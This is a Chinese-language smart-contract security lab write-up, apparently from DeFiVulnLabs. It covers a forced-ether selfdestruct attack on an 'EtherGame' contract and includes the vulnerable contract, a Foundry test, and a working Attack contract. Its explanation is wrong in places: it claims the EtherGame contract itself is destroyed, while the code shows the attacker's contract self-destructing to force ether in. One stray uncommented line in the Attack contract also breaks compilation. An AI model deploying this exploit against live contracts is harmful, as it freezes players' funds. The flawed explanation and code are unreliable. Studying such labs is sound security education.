

# Selfdestruct
[Selfdestruct.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Selfdestruct.sol)  
**名称：** 自毁漏洞  
**描述：**    
这个EtherGame合约的自毁漏洞是智能合约代码中的一个缺陷，它允许攻击者通过EtherGame合约自毁（使用selfstruct操作码）来破坏游戏。  
该漏洞的产生是由于Attack合约中的doc函数在收到大量以太币后对EtherGame合约执行自毁操作。由于执行自毁操作后，EtherGame合约的功能被永久禁用，这使得任何人都无法存入以太币或者领取获胜者的奖励。


**场景：**  
1. 部署合约  
2. 玩家（假设是Alice和Bob）决定参与游戏，并各自向约合存入1个以太币。
3. 部署Attack合约并且在构造函数中传入EtherGame合约地址
4. 调用Attack.attack发送5个以太币到EtherGame合约。这将破坏游戏，任何人都不可能成为赢家。

**发生了什么？**  
攻击者迫使EtherGame合约的余额等于7个以太币。  
现在任何人都不能向EtherGame合约存入以太币，也无法确定赢家。  
因为访问控制缺失或者不足，攻击者可以自毁合约。  
selefdestruct(address)函数会从合约中删除所有的字节码并且发送所有的以太币到指定的合约地址。  

**修复建议：**  
不要依赖this.balance来获取存入的以太币，而是用一个状态变量来表示存入的总金额。  

**EtherGame 合约：**  
```
contract EtherGame {
    uint public constant targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance; // vulnerable
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
**如何测试：**  
forge test --contracts src/test/Selfdestruct.sol -vvvv  
```
// 测试使用自毁函数的场景
function testSelfdestruct() public {
    // 记录Alice的余额
    console.log("Alice balance", alice.balance);
    // 记录Eve的余额
    console.log("Eve balance", eve.balance);

    // 记录Alice存款的开始
    console.log("Alice deposit 1 Ether...");
    // 将消息发送者设置为Alice
    vm.prank(alice);
    // Alice向EtherGame合约存入1个ETH
    EtherGameContract.deposit{value: 1 ether}();

    // 记录Eve存款的开始
    console.log("Eve deposit 1 Ether...");
    // 将消息发送者设置为Eve
    vm.prank(eve);
    // Eve向EtherGame合约存入1个以太币
    EtherGameContract.deposit{value: 1 ether}();

    // 记录EtherGame合约的余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );

    // 记录攻击的开始
    console.log("Attack...");
    //使用EtherGame合约作为参数创建Attack合约的新实例。
    AttackerContract = new Attack(EtherGameContract);
    // 向Attacker合约的dos函数发送5个以太币。
    AttackerContract.dos{value: 5 ether}();
    // 记录攻击后EtherGame合约的新余额
    console.log(
        "Balance of EtherGameContract",
        address(EtherGameContract).balance
    );
    // 记录攻击的完成
    console.log("Exploit completed, Game is over");
    // 尝试向EtherGameContract存入1个以太币。由于合约已被销毁，此调用将失败。
    EtherGameContract.deposit{value: 1 ether}(); // 由于合约已被销毁，此调用将失败。
}

//  用于攻击EtherGame合约的合约。
contract Attack {
    // 要攻击的EtherGame合约。
    EtherGame etherGame;

    // 构造函数用于设置EtherGame合约。
    constructor(EtherGame _etherGame) {
        etherGame = _etherGame;
    }

    // 执行攻击的函数
    function dos() public payable {
        // 通过发送以太币来破坏游戏，使游戏余额大于等于7个以太币 
        balance is >= 7 ether.

        // 将EtherGame合约地址转换为可支付的地址
        address payable addr = payable(address(etherGame));
        // 自毁合约，并将其余额发送到EtherGame合约
        selfdestruct(addr);
    }
}
```  
**红框：** 攻击成功，游戏结束。
